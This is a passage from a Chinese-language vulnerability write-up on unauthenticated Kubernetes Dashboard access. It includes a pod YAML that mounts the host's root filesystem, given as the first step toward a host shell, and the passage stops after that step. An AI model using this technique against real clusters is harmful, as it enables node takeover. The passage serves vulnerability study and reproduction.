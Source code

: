 #### Dashboard 未授权访问

**漏洞描述**  
K8s Dashboard 默认是存在鉴权机制的，用户可以通过 kubeconfig 或者 Token 两种方式登录，当用户开启了 enable-skip-login 时可以在登录界面点击 Skip 跳过登录直接进入 Dashboard，而且有时候可以直接访问 K8s DashBoard，在这种情况下攻击者可以通过部署恶意 Pod 实现控制节点的目的

**漏洞复现**  
K8s DashBoard 未授权访问：  
[![](assets/1701826061-65a9e09e7439892c222a1c90c170485c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025172056-cdc60924-7317-1.png)  
**宿主 Shell**  
Step 1：通过 WEB UI 界面创建一个 pod，并将本地根目录挂载到 pod 的/mnt 目录中

```bash
apiVersion: v1
kind: Pod
metadata:
  name: myapp
spec:
  containers:
  - image: nginx
    name: container
    volumeMounts:
    - mountPath: /mnt
      name: test-volume
  volumes:
  - name: test-volume
    hostPath:
      path: /
```
